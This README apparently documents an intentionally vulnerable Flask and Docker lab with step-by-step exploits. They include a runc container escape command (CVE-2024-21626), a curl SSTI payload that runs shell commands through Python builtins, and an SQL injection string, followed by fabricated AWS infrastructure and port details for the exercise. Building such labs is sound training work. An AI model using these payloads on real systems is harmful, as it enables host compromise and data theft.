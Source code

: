 # Project 1: RCE & Container Escape

This project is a simple Python Flask application designed to be vulnerable for educational purposes. It demonstrates vulnerabilities at both the application and infrastructure levels.

### Vulnerabilities Included:

1.  **`runc` Container Escape (CVE-2024-21626):** A high-severity vulnerability in `runc` that allows a malicious container to break out of its isolation and gain root access on the host machine.
2.  **Peering Manager-style SSTI RCE (CVE-2024-28114):** A critical Server-Side Template Injection (SSTI) that allows an attacker to execute arbitrary commands on the server through a malicious template.
3.  **SQL Injection (Generic):** A classic web vulnerability allowing an attacker to manipulate SQL queries to exfiltrate data from the database.

---

### How to Run

**Prerequisites:**
*   Docker
*   Docker Compose
*   **For CVE-2024-21626:** A host system with a vulnerable version of `runc` (e.g., versions `< 1.1.12`). Most default Docker installations on Linux from before February 2024 are vulnerable.

**Instructions:**

1.  Clone or download this project directory.
2.  Navigate to the `project1` directory in your terminal.
3.  Run the following command to build and start the services in the background:

    ```bash
    docker-compose up --build -d
    ```

4.  The vulnerable web application will be available at **http://localhost:5001**.
5.  The `project1_exploit_pod` container will be running for you to execute commands from.

---

### How to Exploit

#### 1. runc Container Escape (CVE-2024-21626)

This exploit works by tricking the host's `runc` process into keeping a file descriptor open to the host's filesystem, which the container can then use to "escape".

**Note:** This command must be run from your **host machine's terminal**, not from inside a container.

```bash
# This command executes `ls -l /` inside the exploit_pod container,
# but it tricks runc into evaluating the working directory (`-w`) from a leaked
# host file descriptor, effectively listing the root of the HOST filesystem.
docker exec -w /proc/self/fd/7 project1_exploit_pod ls -l /
```
You should see the contents of your host machine's root directory (/), not the container's.
#### 2. Peering Manager-style SSTI RCE (CVE-2024-28114)
1. Open your browser and navigate to http://localhost:5001.
2. In the "SSTI RCE" section, you can use curl or the web form.
Using curl:
```bash
curl -X POST http://localhost:5001/render \
-d "template={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"
```

Expected Output: You will see the output of the id command from within the project1_app container (e.g., uid=0(root) gid=0(root) groups=0(root)).

#### 3. SQL Injection
1. Navigate to http://localhost:5001.
2. In the "SQL Injection" section, enter the following payload into the search box and click "Search User":
```bash
' OR '1'='1
```
3. Alternatively, you can craft the URL directly: http://localhost:5001/search?query=%27%20OR%20%271%27=%271

Expected Result: The query becomes SELECT username FROM users WHERE username = '' OR '1'='1', which is always true. The application will return all usernames from the database (admin and alice).

### To Stop and Clean Up
Run the following command in the project1 directory to stop and remove the containers and network:
```bash
docker-compose down 
```

### Fake Infrastructure Details

*   **`cloud_provider`**: AWS
*   **`services_used`**: ["EC2", "RDS for PostgreSQL", "S3", "Elastic Load Balancer"]
*   **`authentication_method`**: IAM Roles for service-to-service communication. Application database uses local user accounts.
*   **`region`**: us-east-1
*   **`extra_info`**: "Application is behind an ELB. Static assets are served from an S3 bucket. CI/CD pipeline is managed by Jenkins running on a separate EC2 instance."

### Fake Open Ports

| Port  | Service    | Description                                   |
| :---- | :--------- | :-------------------------------------------- |
| 80/443| HTTP/HTTPS | Standard web traffic, forwarded by ELB to app |
| 22    | SSH        | Restricted to admin jump-box for maintenance  |
| 5432  | PostgreSQL | DB port, only accessible from app server SG   |
| 9100  | Monitoring | Node Exporter endpoint for Prometheus metrics |
